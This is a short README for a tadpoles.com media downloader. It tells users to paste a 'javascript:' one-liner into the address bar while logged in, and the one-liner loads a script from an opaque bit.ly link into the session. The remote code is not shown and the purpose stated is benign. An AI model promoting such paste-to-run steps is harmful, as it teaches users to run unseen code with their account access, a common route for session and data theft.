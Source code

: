 # tadpoles-media-downloader
Hack method to download all of your media from tadpoles.com

***INSTRUCTIONS BELOW***

Quick script I wrote to download all pictures and videos out of tadpoles. To use, do the following:

1.) Copy the following string of text:

javascript:var js = document.createElement('script');js.src = '//bit.ly/2lKFacH';document.querySelectorAll('head')[0].appendChild(js)

2.) Open google chrome (might work with other browsers, but not really tested)

3.) Log into tadpoles

4.) In the address bar, type the word "javascript" followed by a colon (:) like this:

javascript:

5.) Paste the text you copied earlier so your address bar now looks like this:

javascript:var js = document.createElement('script');js.src = '//bit.ly/2lKFacH';document.querySelectorAll('head')[0].appendChild(js)

6.) Hit ENTER

7.) When the website asks for permission to download multiple files, click "YES". These are your pictures and videos its trying to download.

This sounds *WAY* more complicated than it really is.
Just watch the [video](https://www.youtube.com/watch?v=c54Zx0Dx_A4)
, and if you get lost please feel free to contact me.
